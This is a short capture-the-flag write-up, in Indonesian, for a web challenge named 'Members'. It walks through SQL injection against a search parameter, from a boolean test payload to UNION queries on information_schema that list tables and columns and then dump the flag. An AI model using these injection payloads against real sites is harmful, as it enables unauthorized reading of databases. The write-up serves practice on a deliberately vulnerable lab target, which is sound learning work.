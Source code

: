 # Members
---
Can you get more information about the members?

http://challs.dvc.tf:1337/members
# Solver
---
Terdapat fitur Search yang akan menampilkan inputan dari seorang user
![](chall.png)
Ketika menginputkan akan dikirimkan parameter ```q```. Disini saya berasumsi terdapat kerentanan SQL Injection yaudah saya cek dulu menggunakan payload ```" or ""="``` ternyata berhasil dari sini saya bisa menyusun sebuah payload untuk mngekstract database yang ada. 
- Pertama saya ingin mengetahui tabel apa saja yang ada dengan menggunakan payload berikut ``` " and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database() -- -``` dan diperoleh ```members,supa_secret_table```
- Lalu saya mencoba melihat kolom dari tabel ```supa_secret_table``` dengan cara ```" and 1=2 union select group_concat(column_name),3,4 from information_schema.columns where table_schema = database() and table_name = "supa_secret_table" -- -``` ternyata terdapat ```id,flag```
- Tinggal kita lihat isi dari kolom tersebut menggunakan ```" and 1=2 union select group_concat(id,flag),3,4 from supa_secret_table -- - -- -``` didapatkan flag
#### dvCTF{1_h0p3_u_d1dnt_us3_sqlm4p}